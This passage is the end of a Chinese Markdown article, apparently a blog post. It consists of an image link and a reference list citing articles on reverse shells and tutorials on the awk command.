


## 参考
> [\[1\] 反弹Shell，看这一篇就够了](https://xz.aliyun.com/t/9488?time__1311=n4%2BxnD0Du0YGq0KYGNnmDUrpRiit7Dc7DYupD)\
> [\[2\] 反弹Shell的方式和详解](https://blog.csdn.net/Aaron_Miller/article/details/106825087)\
> [\[3\] 反弹Shell原理及分析](https://uu2fu3o.gitbook.io/articles/articles/shen-tou-ce-shi/ji-shu-yuan-li-yu-fen-xi/fan-tan-shell-yuan-li-ji-fen-xi#fan-xiang-shell-gong-zuo-yuan-li)\
> [\[4\] 三十分钟学会awk](https://github.com/mylxsw/growing-up/blob/master/doc/%E4%B8%89%E5%8D%81%E5%88%86%E9%92%9F%E5%AD%A6%E4%BC%9AAWK.md)\
> [\[5\] awk - 参考手册、选项、命令示例](https://cn.linuxos.info/command/awk)